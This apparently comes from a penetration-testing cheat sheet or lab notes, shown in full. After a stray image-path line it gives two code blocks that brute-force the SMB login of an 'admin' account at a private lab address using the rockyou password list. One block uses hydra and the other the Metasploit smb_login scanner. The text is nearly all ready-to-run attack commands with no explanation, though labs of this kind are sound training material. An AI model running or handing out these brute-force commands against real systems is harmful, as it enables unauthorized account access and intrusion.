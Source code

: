 ### hydra
````bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.15 smb
````
### Metasploit
````bash
use auxiliary/scanner/smb/smb_login
set SMBUser admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
set rhosts 10.0.2.15
set lhost 10.0.2.10
exploit
````